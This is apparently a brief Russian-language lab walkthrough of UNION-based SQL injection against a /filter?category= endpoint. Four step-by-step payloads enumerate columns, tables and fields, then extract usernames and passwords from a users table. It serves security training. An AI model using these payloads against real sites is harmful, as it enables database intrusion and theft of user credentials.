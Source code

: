1. Узнаем количество колонок

`/filter?category=' UNION SELECT NULL, NULL -- -`

2. Узнаем названия таблиц

`/filter?category='UNION SELECT table_name, NULL FROM information_schema.tables -- -`

3. Узнаем название колонок

`/filter?category=' UNION SELECT column_name, NULL FROM information_schema.columns WHERE table_name = 'users_zgudnd' -- -`

4. Получаем данные

`/filter?category=' UNION SELECT username_osvphi, password_yxvzgn FROM users_zgudnd -- -`
